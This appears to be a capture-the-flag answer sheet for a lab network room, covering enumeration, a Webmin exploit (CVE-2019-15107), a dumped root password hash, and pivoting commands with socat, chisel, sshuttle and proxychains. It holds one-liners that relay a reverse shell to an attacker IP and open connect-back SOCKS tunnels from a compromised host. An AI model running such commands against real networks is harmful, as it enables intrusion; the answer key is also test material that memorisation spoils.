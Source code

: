 ### Enumeration
#### How many of the first 15000 ports are open on the target?  
  4  
#### What OS does Nmap think is running?
centos  

#### Open the IP in your browser -- what site does the server try to redirect you to?
https://thomaswreath.thm/

#### Read through the text on the page. What is Thomas' mobile phone number?
+447821548812 

#### Look back at your service scan results: what server version does Nmap detect as running here?
MiniServ 1.890 (Webmin httpd)

#### What is the CVE number for this exploit?
CVE-2019-15107

### Exploitation

#### Run the exploit and obtain a pseudoshell on the target!
#### Which user was the server running as?
root

#### What is the root user's password hash?
i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1

#### What is the full path to this file?
/root/.ssh/id_rsa

####  Which type of pivoting creates a channel through which information can be sent hidden inside another protocol?
tunneling

#### Research: Not covered in this Network, but good to know about. Which Metasploit Framework Meterpreter command can be used to create a port forward?
portfwd

#### What is the absolute path to the file containing DNS entries on Linux?
/etc/resolv.conf

#### What is the absolute path to the hosts file on Windows?
C:\Windows\System32\drivers\etc\hosts

#### How could you see which IP addresses are active and allow ICMP echo requests on the 172.16.0.x/24 network using Bash?
for i in {1..255}; do (ping -c 1 172.16.0.${i} | grep "bytes from" &); done


### Proxychains and FoxyProxy
####  What line would you put in your proxychains config file to redirect through a socks4 proxy on 127.0.0.1:4242?
socks4 127.0.0.1 4242  
#### What command would you use to telnet through a proxy to 172.16.0.100:23?
proxychains telnet 172.16.0.100 23
#### You have discovered a webapp running on a target inside an isolated network. Which tool is more apt for proxying to a webapp: Proxychains (PC) or FoxyProxy (FP)?
FP

#### If you had SSH access to a server (172.16.0.50) with a webserver running internally on port 80 (i.e. only accessible to the server itself on 127.0.0.1:80), how would you forward it to port 8000 on your attacking machine? Assume the username is "user", and background the shell.
ssh -L 8000:127.0.0.1:80 user@172.16.0.50


### plink.exe
#### What tool can be used to convert OpenSSH keys into PuTTY style keys?
 puttygen

### Socat
####  Which socat option allows you to reuse the same listening port for more than one connection?
reuseaddr

### If your Attacking IP is 172.16.0.200, how would you relay a reverse shell to TCP port 443 on your Attacking Machine using a static copy of socat in the current directory? Use TCP port 8000 for the server listener, and do not background the process.
  ./socat tcp-l:8000 tcp:172.16.0.200:443

#### What command would you use to forward TCP port 2222 on a compromised server, to 172.16.0.100:22, using a static copy of socat in the current directory, and backgrounding the process (easy method)?
./socat tcp-l:2222, fork,reuseaddr tcp:172.16.0.100:22 &

### Chisel

#### Use port 4242 for the listener and do not background the process.
./chisel server -p 4242 --reverse

#### What command would you use to connect back to this server with a SOCKS proxy from a compromised host, assuming your own IP is 172.16.0.200 and backgrounding the process?
./chisel client 172.16.0.200:4242 socks

#### How would you forward 172.16.0.100:3306 to your own port 33060 using a chisel remote port forward, assuming your own IP is 172.16.0.200 and the listening port is 1337? Background this process.
./chisel client 172.16.0.100:3306 R:33060:172.16.0.200 &

#### If you have a chisel server running on port 4444 of 172.16.0.5, how could you create a local portforward, opening port 8000 locally and linking to 172.16.0.10:80?
./chisel client 172.16.0.5:4444 8000:172.16.0.10:80

### Sshuttle
#### How would you use sshuttle to connect to 172.16.20.7, with a username of "pwned" and a subnet of 172.16.0.0/16
sshuttle -r pwned@172.16.20.7 172.16.0.0/16

#### What switch (and argument) would you use to tell sshuttle to use a keyfile called "priv_key" located in the current directory?
--ssh-cmd "ssh -i priv_key"

#### You are trying to use sshuttle to connect to 172.16.0.100.  You want to forward the 172.16.0.x/24 range of IP addreses, but you are getting a Broken Pipe error. What switch (and argument) could you use to fix this error?
-x 172.16.0.100
